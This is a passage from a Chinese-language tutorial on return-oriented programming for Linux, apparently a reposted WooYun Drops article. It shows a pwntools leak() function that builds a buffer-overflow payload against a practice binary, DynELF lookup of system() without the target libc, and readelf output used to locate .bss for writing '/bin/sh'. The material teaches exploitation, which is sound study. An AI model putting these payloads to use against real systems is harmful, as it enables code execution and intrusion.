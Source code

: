 ```yaml
---
title: 一步一步学ROP之linux_x64篇
description: 一步一步学ROP之linux_x64篇
---
```


## 一步一步学ROP之linux_x64篇

# 0x00 序

------

ROP的全称为Return-oriented programming（返回导向编程），这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）。上次我们主要讨论了linux_x86的ROP攻击。

一步一步学ROP之linux_x86篇 `http://drops.wooyun.org/tips/6597`

在这次的教程中我们会带来上一篇的补充以及linux_x64方面的ROP利用方法，欢迎大家继续学习。

另外文中涉及代码可在我的github下载：`https://github.com/zhengmin1989/ROP_STEP_BY_STEP`

# 0x01 Memory Leak & DynELF - 在不获取目标libc.so的情况下进行ROP攻击

------

注意，这一节是上一篇文章的补充，还是讲的x86的ROP。上次讲到了如何通过ROP绕过x86下DEP和ASLR防护。但是我们要事先得到目标机器上的libc.so或者具体的linux版本号才能计算出相应的offset。那么如果我们在获取不到目标机器上的libc.so情况下，应该如何做呢？这时候就需要通过memory leak(内存泄露)来搜索内存找到system()的地址。

这里我们采用pwntools提供的DynELF模块来进行内存搜索。首先我们需要实现一个leak(address)函数，通过这个函数可以获取到某个地址上最少1 byte的数据。拿我们上一篇中的level2程序举例。leak函数应该是这样实现的：

```
#!python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
return data
```

随后将这个函数作为参数再调用`d = DynELF(leak, elf=ELF('./level2'))`就可以对DynELF模块进行初始化了。然后可以通过调用`system_addr = d.lookup('system', 'libc')`来得到libc.so中system()在内存中的地址。

要注意的是，通过DynELF模块只能获取到system()在内存中的地址，但无法获取字符串“/bin/sh”在内存中的地址。所以我们在payload中需要调用read()将“/bin/sh”这字符串写入到程序的.bss段中。.bss段是用来保存全局变量的值的，地址固定，并且可以读可写。通过`readelf -S level2`这个命令就可以获取到bss段的地址了。

```
#!bash
$ readelf -S level2
There are 30 section headers, starting at offset 0x1148:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
……
  [23] .got.plt          PROGBITS        08049ff4 000ff4 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000008 00  WA  0   0  4
  [26] .comment          PROGBITS        00000000 001020 00002a 01  MS  0   0  1
……
```
